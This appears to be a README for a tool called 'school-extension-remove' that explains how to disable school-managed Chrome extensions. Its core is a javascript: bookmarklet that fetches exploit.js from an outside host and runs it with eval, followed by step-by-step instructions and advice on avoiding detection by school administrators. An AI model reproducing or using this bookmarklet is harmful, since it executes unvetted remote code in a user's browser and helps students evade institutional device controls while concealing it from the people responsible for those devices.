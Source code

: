 # school-extension-remove
removes organization extensions, copy the text below this one, javascript:fetch("https://compactcow.com/ltbeef/exploit.js").then(data=>{data.text().then(text=>{eval(text)})});
Next click the star, click more, in the URL section input this code, open a new tab and type in the top bar,
chrome.google.com/webstorex
then you open the bookmarks bar that is right next to the person on this window page and the bookmarks bar has a half black and half white icon, click on it and scroll down to the bookmark you saved earlier, then when u are on chrome.google.com/webstorex have the bookmarks bar pen next to the website that I told u to be on for this to work, then you gotta click that bookmark that you copied and it takes you to the extensions where you can disable or enable any extensions you want without getting caught if you don't tell your classmates, NOTICE! IT IS NOT MY FAULT IF YOU GET INTO TROUBLE OR CAUGHT FOR THIS, I am just simply doing this because sometimes people need privacy on the school computer, WHEN YOU FINISH WITH THE COMPUTER AND IT IS FROM YUR SCHOOL TURN THE EXTENSIONS BY THE ORGANIZATION BACK ON, BECAUSE THEY CAN SEE WHO WAS LAST LOGGED ON ONTO SCHOOL COMPUTERS THAT GET RETURNED TO THE SCHOOL.
